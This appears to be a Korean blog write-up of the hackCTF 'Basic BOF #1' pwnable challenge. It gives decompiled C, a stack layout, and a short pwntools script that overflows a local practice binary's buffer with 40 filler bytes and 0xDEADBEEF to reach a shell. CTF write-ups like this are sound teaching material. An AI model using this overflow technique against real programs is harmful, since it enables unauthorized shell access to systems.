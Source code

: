 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
categories: c python
---
```

hackCTF pwnable 첫번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida
```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin); // s에 45바이트 입력 받음
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 ) // v5가 특정 두 값이 아니면
      puts("\nYou are on the right way!"); // "You are on the right way!" 출력
    if ( v5 == -559038737 ) // v5가 특정 값이면
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash"); // 쉘을 띄울 수 있다!
      puts("Shell closed! Bye.");
    }
    return 0;
```

***
메모리 구조를 정리해보자.

| ebp |          |
|:---:|:--------:|
| ... |          |
| v5 (67305985) | esp+0x2C |
| ... |          |
| s   | esp+0x4  |
| ... |          |
| esp | esp+0    |


우리가 직접 수정할 수 있는 건 s인데 v5 값을 바꿔야 한다.  
payload를 v5까지 덮을 수 있도록 만들자.


## exploit.py
```python
  #!/usr/bin/python
  from pwn import *

  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```

-559038737는 hex로 0xDEADBEEF다. 40byte를 아무 값으로 채운다음 p32 방식으로 패킹해서 payload를 만들면 된다.

## 결과  
![0102](https://drive.google.com/uc?id=1DCHfkrbOkWFKlbtl9krspfNhFJzKnpQU)


p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
